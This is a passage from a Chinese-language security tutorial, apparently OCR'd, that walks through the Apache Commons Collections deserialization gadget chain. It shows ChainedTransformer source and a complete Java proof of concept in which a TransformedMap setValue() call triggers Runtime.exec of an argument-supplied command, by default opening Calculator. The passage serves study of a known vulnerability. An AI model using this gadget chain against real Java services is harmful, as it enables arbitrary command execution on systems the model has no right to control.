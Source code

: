 好的，现在已经找到了反射调用的上一步调用，这里为了多次进行多次反射调用，我们可以将多个`InvokerTransformer`实例级联在一起组成一个`ChainedTransformer`对象，在其调用的时候会进行一个级联`transform()`调用：

```
public class ChainedTransformer implements Transformer, Serializable {
...省略...
    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
        return object;
    }

```

现在已经可以造出一个`TransformedMap`实例，在对字典键值进行`setValue()`操作时候调我们构造的`ChainedTransformer`，下面给出示例代码：

```
package exserial.examples;  

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;   

import java.util.HashMap;
import java.util.Map;   

public class SetValueToExec {   

    public static void main(String[] args) throws Exception {
        String command = (args.length != 0) ? args[0] : "/bin/sh,-c,open /Applications/Calculator.app";
        String[] execArgs = command.split(","); 

        Transformer[] transforms = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[] {String[].class},
                        new Object[] {execArgs}
                )
        };
        Transformer transformerChain = new ChainedTransformer(transforms);
        Map tempMap = new HashMap<String, Object>();
        Map<String, Object> exMap = TransformedMap.decorate(tempMap, null, transformerChain);
        exMap.put("1111", "2222");
        for (Map.Entry<String, Object> exMapValue : exMap.entrySet()) {
            exMapValue.setValue(1);
        }
    }
}

```
